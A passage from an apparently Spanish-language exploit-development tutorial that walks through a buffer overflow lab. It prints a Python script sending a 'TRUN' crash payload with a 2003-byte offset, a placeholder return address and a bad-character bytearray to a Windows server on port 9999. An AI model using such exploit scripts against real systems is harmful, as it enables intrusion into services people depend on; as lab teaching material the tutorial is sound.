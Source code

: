 Ya los tenemos.

Copia el archivo de los **Bytearrays** en tu máquina o solamente copia los bytes que se muestran en el archivo.

Vamos a empezar a generar nuestro Exploit, para poder mandar esos bytes y crashear el binario (esto ya está hecho en el script 4 del repositorio que descargamos antes, así que puedes usar ese en lugar de mi script).

Debería quedar así:
```python
#!/usr/bin/python3

import socket

# Variables globales
ip_addr = "IP_máquina_windows"
port = 9999
offset = 2003
before_eip = b"A"*offset
eip = b"B"*4

shellcode =  (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

after_eip = shellcode

payload = b"TRUN /.:/" + before_eip + eip + after_eip

def exploit():

        # Creando conexión y enviando shellcode
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(5)

        s.connect((ip_addr, port))

        # Recibiendo banner
        banner = s.recv(1024)
        print(f"\n[+] Recibiendo Banner: \n------\n{banner.decode('utf-8', errors='ignore')}\n------\n")

        # Enviando payload
        s.send(payload)

        # Respuesta de servidor
	response = s.recv(1024)
        print(f"\n[+] Respuesta del servidor: {response.decode('utf-8', errors='ignore')}\n")

	# Cerrando conexión
        s.close()
```